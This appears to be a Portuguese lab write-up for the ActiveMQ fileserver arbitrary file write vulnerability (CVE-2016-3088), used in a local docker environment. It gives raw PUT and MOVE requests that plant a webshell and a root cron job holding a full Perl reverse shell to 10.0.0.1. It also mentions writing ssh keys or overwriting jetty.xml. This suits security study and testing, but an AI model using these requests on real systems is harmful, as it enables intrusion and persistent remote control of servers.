

# ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

## Configuração do ambiente

Digite os seguintes comandos para construir e executar o ambiente de vulnerabilidade:

```
docker-compose up -d
```

O ambiente escuta a porta 61616 e a porta 8161, das quais 8161 é a porta do console da web. Essa vulnerabilidade aparece no console da web.

Visite `http://your-ip:8161/` para ver a página web, indicando que o ambiente foi executado com sucesso.

## Breve histórico

O console da web do ActiveMQ é dividido em três aplicativos, admin, API e fileserver, onde o admin é a página do administrador, a API é a interface e o fileserver é a interface para armazenamento de arquivos; admin e API precisam fazer login antes que possam ser usados, o servidor de arquivos não precisa fazer login.

fileserver é uma interface de API RESTful. Podemos ler e gravar arquivos armazenados nele por meio de solicitações HTTP, como GET, PUT e DELETE. A finalidade do design é compensar o defeito de que a operação da fila de mensagens não pode transferir e armazenar arquivos binários, mas depois descobriu que:

1. Sua taxa de uso não é alta
2. As operações de arquivo são propensas a vulnerabilidades

Portanto, o ActiveMQ fechou o aplicativo de servidor de arquivos por padrão em 5.12.x~5.13.x (você pode abri-lo em conf/jetty.xml); após 5.14.0, o aplicativo de servidor de arquivos é completamente removido.

No processo de teste, você deve prestar atenção à versão do ActiveMQ, para evitar esforços inúteis.

## Detalhes da vulnerabilidade

Esta vulnerabilidade aparece no aplicativo Fileserver, o princípio da vulnerabilidade é realmente muito simples, ou seja, o fileserver suporta a gravação de arquivos (mas não analisa o JSP), enquanto suporta o arquivo de movimentação (solicitação de MOVE). Portanto, só precisamos escrever um arquivo e movê-lo para qualquer local usando uma solicitação de movimentação, causando uma vulnerabilidade arbitrária de gravação de arquivo.

Gravar arquivos como cron ou chave ssh

1. Escreva Webshell
2. Grave arquivos como cron ou chave ssh
3. Gravar bibliotecas e arquivos de configuração como jar ou jetty.xml

A vantagem de escrever web shell é conveniente, mas o servidor de arquivos não analisa JSP, admin e API ambos precisam fazer login para acessar, então é um pouco fútil; A vantagem de escrever a chave cron ou ssh é reverter diretamente o Shell, também é conveniente, a desvantagem é que você precisa de privilégios de root; escrever jar, um pequeno problema (requer jar back door), escrever arquivo de configuração XML, este método é mais confiável, mas há um ponto fútil: precisamos saber o caminho absoluto do ActiveMQ.

Vamos falar sobre os vários métodos acima.

### Escrever Webshell

Escreva WebshellComo eu disse anteriormente, o Webshell precisa ser escrito no aplicativo Admin ou API, e ambos os aplicativos precisam estar logados para acessar.

A conta e senha padrão do ActiveMQ é `admin`. Primeiro, visite `http://your-ip:8161/admin/test/systemProperties.jsp` para ver o caminho absoluto do ActiveMQ:



Em seguida, faça o upload do Webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Em seguida, mova-o para a pasta API (`/opt/activemq/webapps/api/s.jsp`) no diretório Web:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Access Webshell (login required):


### Escreva crontab, automatize o shell reverso

Este é um método relativamente estável. Primeiro carregue o arquivo de configuração do cron (observe que a nova linha deve ser `\n`, não `\r\n`, caso contrário a execução do crontab falhará):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Mova-o para `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Se ambas as solicitações acima retornarem 204, a gravação será bem-sucedida. Aguardando o shell reverso:


Este método requer que o ActiveMQ seja executado como root, caso contrário, ele não poderá gravar no arquivo cron.

### Escreva jetty.xml ou jar

Em teoria, podemos substituir o jetty.xml, remover as restrições de login para admin e API e então escrever um web shell.

Em alguns casos, o proprietário do jetty.xml e do jar é o usuário do container da web, portanto, a taxa de sucesso ao escrever crontab é maior.

Não testado ainda.
